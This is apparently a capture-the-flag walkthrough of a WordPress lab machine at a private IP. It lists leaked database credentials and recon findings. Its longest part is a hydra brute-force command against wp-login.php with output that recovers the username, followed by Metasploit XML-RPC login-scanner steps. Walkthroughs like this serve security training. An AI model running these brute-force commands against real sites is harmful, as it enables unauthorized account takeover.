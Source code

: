 
- MySQL
  - User:`bn_wordpress`
  - Pass:`570fd42948`
  - Host: `localhost:3306`
  - Charset: `UTF-8`

## Summary

| What worked?                                                   | What didn’t work? |
|----------------------------------------------------------------|-------------------|
| - WordPress pingback access<br/>- Brute force on /wp-login.php | - dirb scan       |


## Kill Chain – Phase 1

### Reconnaissance

  - Found `/wp-login.php` with nikto
  - Found `/fsocity.dic` in robots.txt
    - Filtered dictionary create fsociety-filtered.txt

### Weaponisation

#### Brute force

    ┌──(kali㉿kali)-[~]
    └─$ hydra -L /kali-share/downloads/fsocity.dic -p test 192.168.56.105 http-form-post "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F192.168.56.105%2Fwp-admin%2F&testcookie=1:Invalid username"
    Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).
    
    Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-09-04 10:17:23
    [DATA] max 16 tasks per 1 server, overall 16 tasks, 858235 login tries (l:858235/p:1), ~53640 tries per task
    [DATA] attacking http-post-form://192.168.56.105:80/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F192.168.56.105%2Fwp-admin%2F&testcookie=1:Invalid username
    [80][http-post-form] host: 192.168.56.105   login: Elliot   password: test
    [80][http-post-form] host: 192.168.56.105   login: elliot   password: test
    [80][http-post-form] host: 192.168.56.105   login: ELLIOT   password: test
    ^CThe session file ./hydra.restore was written. Type "hydra -R" to resume session.

#### XML-RPC Username/Password Login Scanner

https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/

    msfconsole
    use use auxiliary/scanner/http/wordpress_xmlrpc_login
    set RHOSTS 192.168.56.105
    set USERNAME Elliot
    set PASS_FILE ~/fsociety-filtered.txt
